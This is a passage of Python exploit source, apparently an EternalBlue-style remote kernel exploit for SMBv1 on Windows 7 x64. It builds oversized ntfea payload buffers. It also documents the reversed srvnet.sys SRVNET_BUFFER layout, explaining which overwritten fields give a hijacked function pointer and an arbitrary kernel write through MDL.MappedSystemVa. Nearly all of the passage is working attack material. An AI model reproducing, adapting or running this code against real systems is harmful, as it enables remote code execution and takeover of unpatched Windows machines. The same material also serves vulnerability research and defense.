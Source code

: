 ```
ntfea1f000 += pack('<BBH', 0, 0, 0x48ed) + 'A'*0x48ee  # 0x1ffe8 - 0x1b6f0 - 0xc = 0x48ec

ntfea = { 0x10000 : ntfea10000, 0x11000 : ntfea11000 }

'''
Reverse from srvnet.sys (Win7 x64)
- SrvNetAllocateNonPagedBufferInternal() and SrvNetWskReceiveComplete():

// for x64
struct SRVNET_BUFFER {
	// offset from POOLHDR: 0x10
	USHORT flag;
	char pad[2];
	char unknown0[12];
	// offset from SRVNET_POOLHDR: 0x20
	LIST_ENTRY list;
	// offset from SRVNET_POOLHDR: 0x30
	char *pnetBuffer;
	DWORD netbufSize;  // size of netBuffer
	DWORD ioStatusInfo;  // copy value of IRP.IOStatus.Information
	// offset from SRVNET_POOLHDR: 0x40
	MDL *pMdl1; // at offset 0x70
	DWORD nByteProcessed;
	DWORD pad3;
	// offset from SRVNET_POOLHDR: 0x50
	DWORD nbssSize;  // size of this smb packet (from user)
	DWORD pad4;
	QWORD pSrvNetWskStruct;  // want to change to fake struct address
	// offset from SRVNET_POOLHDR: 0x60
	MDL *pMdl2;
	QWORD unknown5;
	// offset from SRVNET_POOLHDR: 0x70
	// MDL mdl1;  // for this srvnetBuffer (so its pointer is srvnetBuffer address)
	// MDL mdl2;
	// char transportHeader[0x50];  // 0x50 is TRANSPORT_HEADER_SIZE
	// char netBuffer[0];
};

struct SRVNET_POOLHDR {
	DWORD size;
	char unknown[12];
	SRVNET_BUFFER hdr;
};
'''
# Most field in overwritten (corrupted) srvnet struct can be any value because it will be left without free (memory leak) after processing
# Here is the important fields on x64
# - offset 0x58 (VOID*) : pointer to a struct contained pointer to function. the pointer to function is called when done receiving SMB request.
#                           The value MUST point to valid (might be fake) struct.
# - offset 0x70 (MDL)   : MDL for describe receiving SMB request buffer
#   - 0x70 (VOID*)    : MDL.Next should be NULL
#   - 0x78 (USHORT)   : MDL.Size should be some value that not too small
#   - 0x7a (USHORT)   : MDL.MdlFlags should be 0x1004 (MDL_NETWORK_HEADER|MDL_SOURCE_IS_NONPAGED_POOL)
#   - 0x80 (VOID*)    : MDL.Process should be NULL
#   - 0x88 (VOID*)    : MDL.MappedSystemVa MUST be a received network buffer address. Controlling this value get arbitrary write.
#                         The address for arbitrary write MUST be subtracted by a number of sent bytes (0x80 in this exploit).
#                         
#
```